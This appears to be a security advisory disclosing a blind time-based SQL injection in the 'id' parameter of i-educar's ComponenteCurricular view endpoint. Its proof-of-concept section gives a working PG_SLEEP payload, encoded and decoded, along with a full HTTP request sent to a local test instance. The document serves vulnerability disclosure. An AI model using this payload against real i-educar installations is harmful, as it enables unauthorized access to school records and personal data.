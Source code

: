 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `module/ComponenteCurricular/view` Endpoint

### Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/module/ComponenteCurricular/view</code> endpoint of the i-educar application, specifically in the <code>id</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### Details

Vulnerable Endpoint: `/module/ComponenteCurricular/view`

Parameter: `id`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>id</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### PoC

#### Step by Step:

<p align="justify">Access endpoint <code>/intranet/educar_componente_curricular_lst.php</code> and choose (click on) any register. For this example was choosen <code>"Ensino Religioso"</code> register which id = 8. In the vulnerable endpoint, the payload must be inserted after <code>id</code> number (e.g. “id=8<code>payload</code>”)</p>

![](/CVEs/images/SQLi14.png)

![](/CVEs/images/SQLi15.png)

##

#### Payload:

````html
%27%20AND%206606=(SELECT%206606%20FROM%20PG_SLEEP(5))%20AND%20%27QDaZ%27=%27QDaZ
````

#### Decoded Payload:

````html
' AND 6606=(SELECT 6606 FROM PG_SLEEP(5)) AND 'QDaZ'='QDaZ
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /module/ComponenteCurricular/view?id=8%27%20AND%206606=(SELECT%206606%20FROM%20PG_SLEEP(5))%20AND%20%27QDaZ%27=%27QDaZ HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;
q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=bnTu3HZ4Jk5a0JxRERNMd03ZAr1TUGvXZTDs9DdE
Connection: keep-alive
````
##

#### Normal Request:

![](/CVEs/images/SQLi16.png)

#### SQLi Request:

![](/CVEs/images/SQLi17.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

---

### Impact

<p align="justify">
<ul>
  <li>Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details</li>
  <li>Database enumeration: Extracting database schema, tables, and column details</li>
  <li>Data manipulation: Adding, modifying, or deleting database records.</li>
  <li>Denial of Service (DoS): Using time-based queries to impact system availability.</li>
  <li>Potential escalation to RCE: If combined with other vulnerabilities and specific database features.</li>
</ul>
</p>

---

### Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*
